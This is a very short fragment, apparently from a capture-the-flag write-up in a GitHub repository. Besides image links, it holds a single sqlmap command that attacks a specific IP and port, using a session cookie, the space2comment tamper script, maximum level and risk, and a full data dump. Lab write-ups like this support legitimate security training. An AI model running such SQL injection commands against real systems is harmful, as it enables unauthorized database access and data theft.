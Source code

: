 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/898b9662-7e8a-4015-84c0-e31858967981)

```
sqlmap -u "http://62.173.140.174:28680/index.php" --cookie="PHPSESSID=fejsu3n8mkc0mu8p1drfmfo862" --batch --random-agent -v --tamper=space2comment -level=5 --risk=3 -all
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca6be35-9e5c-43fa-b4a7-5851cdc99882)
